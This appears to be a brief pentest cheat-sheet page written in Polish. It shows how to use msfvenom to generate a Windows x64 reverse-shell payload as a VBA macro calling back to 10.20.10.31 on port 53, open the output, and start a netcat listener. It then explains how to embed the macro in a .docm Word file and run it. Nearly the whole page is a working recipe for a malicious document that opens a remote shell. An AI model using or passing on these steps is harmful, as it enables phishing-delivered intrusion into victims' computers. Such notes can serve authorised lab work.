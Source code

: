 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Msfvenom Kali

{% code fullWidth="true" %}
```
msfvenom -p windows/x64/shell_reverse_tcp -f vba-exe LHOST=10.20.10.31 LPORT=53 > macro.txt

#otwieramy plik
mousepad macro.txt

#uruchamiamy listenera
nc -nlvp 53
```
{% endcode %}

**Win**

tworzymy plik docm i kopiujemy część do edytora makr a część do pliku jako zwykły tekst a potem uruchamiamy makro
